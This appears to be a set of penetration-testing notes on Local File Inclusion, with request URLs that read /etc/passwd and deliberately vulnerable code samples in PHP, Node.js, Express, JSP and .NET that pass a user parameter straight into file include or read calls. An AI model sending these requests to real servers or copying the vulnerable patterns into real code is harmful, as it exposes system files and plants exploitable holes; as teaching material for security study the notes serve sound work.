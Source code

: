 https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo
https://book.hacktricks.xyz/pentesting-web/file-inclusion
# Local File Inclusion (LFI)
```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```
### Examples of Vulnerable Code
#### PHP
```php
if (isset($_GET['language'])) {
    include($_GET['language']);
}
```
#### NodeJS
```javascript
if(req.query.language) {
    fs.readFile(path.join(__dirname, req.query.language), function (err, data) {
        res.write(data);
    });
}
```
`Express.js` framework `render()` function
```js
app.get("/about/:language", function(req, res) {
    res.render(`/${req.params.language}/about.html`);
});
```
#### Java
```jsp
<c:if test="${not empty param.language}">
    <jsp:include file="<%= request.getParameter('language') %>" />
</c:if>
```

```jsp
<c:import url= "<%= request.getParameter('language') %>"/>
```
#### .NET
```cs
@if (!string.IsNullOrEmpty(HttpContext.Request.Query['language'])) {
    <% Response.WriteFile("<% HttpContext.Request.Query['language'] %>"); %> 
}
```

```cs
@Html.Partial(HttpContext.Request.Query['language'])
```

```cs
<!--#include file="<% HttpContext.Request.Query['language'] %>"-->
```

## Basic LFI
```LFI
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```
## Path Traversal
###### PHP `include()` function
```php
include($_GET['language']);
```
